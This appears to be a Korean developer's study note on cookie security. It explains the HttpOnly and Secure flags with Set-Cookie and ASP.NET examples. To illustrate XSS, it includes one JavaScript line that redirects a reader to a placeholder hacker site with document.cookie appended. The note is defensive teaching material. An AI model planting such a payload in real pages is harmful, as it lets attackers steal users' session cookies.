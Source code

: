 # 0212 공부 Cookie 보안

이번에 웹 클라이언트 보안을 업데이트 하면서 배우게 된 것들

- 인터넷웹 상에서,서버측에서 관리하려는 상태 정보를,
    - 서버가 아닌 클라이언트측(인터넷 웹브라우저)에 저장하며,
    - 서버측에서 필요시 마다 이를 지속성있게 활용하고자 할 때 사용
- 결국, 쿠키는 [웹 서버](http://www.ktword.co.kr/test/view/view.php?m_temp1=2730&id=1283)에 의해 통제되는 개념임

- 웹의 기능구현상 주요 단점
    - 어떤 요청에 대해 단지 하나의 응답만이 있을 뿐
        - 즉,상태유지를 위한변수를서버측에 할 수 없으며,
        - 이에따라서버측은 사용자에 대한 지속적인 상태 감시 및 상태 참조가 어려움
    - 따라서, 이를 해결하기 위한 수단으로, 사용자용 프로그램인 웹브라우저에다가, 서버측이 원하는상태 값들을 저장할 수 있게하도록 한 것이 바로 쿠키임

이번에 본 가장 큰 cookie 설정은 두 가지이다.

# **HTTP Only Cookies**

쿠키는 클라이언트에서 자바스크립트로 조회할 수 있기 때문에, 해커들은 자바스크립트로 쿠키를 가로채고자 시도를 하게 됩니다. 가장 대표적인 공격 중 하나가 CSS(Cross Site Scripting) 입니다.

```jsx
location.href = 'http://해커사이트/?cookies=' + document.cookie;
```

해커가 위와 같은 게시물을 공개게시판에 작성할 경우, 이 게시물을 읽은 다른 사용자는 알아차리기도 전에 자신의 모든 쿠키를 해커에게 전송하게 됩니다.

이러한 CSS 취약점을 해결하는 방법은, 바로 브라우저에서 쿠키에 접근할 수 없도록 제한하는 것입니다. 이러한 역할을 하는 것이 바로 HTTP Only Cookie입니다. 개발자가 다음과 같이 간단한 접미사를 쿠키생성코드에 추가함으로써 활성화 할 수 있습니다.

```jsx
Set-Cookie: 쿠키명=쿠키값; path=/; HttpOnly
```

가장 마지막에 HttpOnly라는 접미사만 추가함으로써 HTTP Only Cookie가 활성화 되며, 위에서 말한 XSS와 같은 공격이 차단되게 됩니다. HTTP Only Cookie를 설정하면 브라우저에서 해당 쿠키로 접근할 수 없게 되지만, 쿠키에 포함된 정보의 대부분이 브라우저에서 접근할 필요가 없기 때문에 HTTP Only Cookie는 기본적으로 적용하는 것이 좋습니다.

ASP.NET상에서 HTTP Only Cookie를 설정하는 방법은 매우 간단합니다. 쿠키를 추가하실 때 HttpOnly 속성을 true로 설정하시면 됩니다.

```jsx
Response.Cookies.Add(new HttpCookie("쿠키명")
{
   Value = "쿠키 값",
   HttpOnly = true
});
```

HttpOnly의 기본값은 false입니다. 만약 기본값을 true로 설정하시려면 web.config에서 다음과 같이 수정하시면 됩니다.

```jsx
<httpCookies httpOnlyCookies="true" />
```

# **Secure Cookies**

HTTP Only Cookie를 사용하면 Client에서 Javascript를 통한 쿠키 탈취문제를 예방할 수 있습니다. 하지만, Javascript가 아닌 네트워크를 직접 감청하여 쿠키를 가로챌 수도 있습니다. 미국의 NSA를 포함한 각국의 정보기관들이 Wifi 망 분석, ISP 케이블 감청을 통해 쿠키 등 개인정보를 열람하고 있다는 사실은 더 이상 공공연한 비밀이 아닙니다.

이러한 통신상의 정보유출을 막기 위해, HTTPS 프로토콜을 사용하여 데이터를 암호화하는 방법이 주로 사용되고 있습니다. HTTPS를 사용하면 쿠키 또한 암호화되어 전송되기 때문에, 제3자는 내용을 알 수 없게 됩니다.

문제는 HTTPS로 전송되어야 할 정보가, 개발자의 부주의로 HTTP를 통해 유출되는 경우가 있습니다. 예를 들어 개발자가 다음과 같은 코드를 실수로 작성할 수 있습니다.

```jsx
<img src="http://www.example.com/images/logo.png" />
```

브라우저는 http://로 시작되는 위 코드를 만나면 암호화되지 않은 상태로 쿠키를 서버로 전달하게 됩니다. 해커는 이 암호화되지 않은 요청정보를 가로채서 쿠키를 탈취하게 됩니다.

이러한 사고를 방지하는 방법은 쿠키를 생성할 때 secure 접미사를 사용하는 것입니다.

```jsx
Set-Cookie: 쿠키명=쿠키값; path=/; secure
```

위와 같이 마지막에 secure라는 접미사를 사용하여 쿠키를 생성하면, 브라우저는 HTTPS가 아닌 통신에서는 쿠키를 전송하지 않습니다.

ASP.NET에서 구현하실 때는 HttpCookie 클래스의 Secure 속성을 true로 설정해 주시면 됩니다.

```jsx
Response.Cookies.Add(new HttpCookie("쿠키명")
{
    Value = "쿠키 값",
    Secure = true
});
```

마찬가지로 Secure의 기본값은 false이기 때문에, 기본값을 true로 변경하고자 한다면 web.config에서 requireSSL을 true로 설정하시면 됩니다.
